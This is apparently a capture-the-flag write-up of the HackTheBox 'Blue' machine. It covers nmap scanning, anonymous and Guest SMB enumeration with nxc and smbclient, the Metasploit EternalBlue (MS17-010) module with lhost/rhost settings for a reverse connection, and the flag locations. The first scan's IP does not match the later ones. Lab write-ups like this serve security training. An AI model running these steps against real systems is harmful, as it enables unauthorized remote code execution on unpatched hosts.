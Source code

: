 # -HTB-Blue

### Start with a nmap scan
```
nmap -sVC -p- 10.10.10.95 -oN nmap_scan --min-rate 5000
```
> - `-sVC`: Detect service/version /// Run default scripts
> - `-oN`: Output to file (normal format)
> - `--min-rate 5000`: Fast scan 5000 p/s


<img width="917" height="694" alt="image" src="https://github.com/user-attachments/assets/fbfe642a-ecf9-467d-8296-a4db89ac7e44" />


### We see the smb it s open so we use nxc and try anonymus loggin:
```
nxc smb 10.10.10.40 -u "" -p "" 
```
<img width="1355" height="78" alt="image" src="https://github.com/user-attachments/assets/fdd80c02-c259-4e0d-9128-1afaa00c0709" />


### I use --shares to enumerate the shares as the Guest account  :
```
nxc smb 10.10.10.40 -u "Guest" -p "" --shares
```


<img width="1324" height="209" alt="image" src="https://github.com/user-attachments/assets/627ea548-6da3-4e8a-9969-42103bd03a17" />

### After i use smbclient to connect to the smb with -N ( no pass ) 
```
smbclient //10.10.10.40/Users -N
```
<img width="690" height="178" alt="image" src="https://github.com/user-attachments/assets/b2dbbb4f-20a9-42a9-82cc-1370d02cff97" />

### After a lot of files ... i got back to the nmap scan and search on google : "Windows 7 Professional 6.1 exploit smb" .And find that has an remote code execution on the smb name as : EternalBlue Exploit | MS17-010  // And Metasploit has an exploit we can use 

<img width="1383" height="784" alt="image" src="https://github.com/user-attachments/assets/35a7faba-30d7-4ca0-b6f1-65cc8e18053a" />

- set lhost <YOUR $IP>
- set rhost 10.10.10.40

<img width="181" height="47" alt="image" src="https://github.com/user-attachments/assets/a3d4c8cd-f61c-4c3c-9fc1-a7306732dc2d" />

### And we find the users in flag :
```
C:\Users\haris\Desktop
```

<img width="569" height="163" alt="image" src="https://github.com/user-attachments/assets/5c92b9ca-6967-4dfd-bb70-d971d67e7ac7" />


### And the root in flag:
```
C:\Users\Administrator\Desktop
```
<img width="564" height="165" alt="image" src="https://github.com/user-attachments/assets/229c097e-9d7d-450c-a4c9-98e1bb5f635e" />
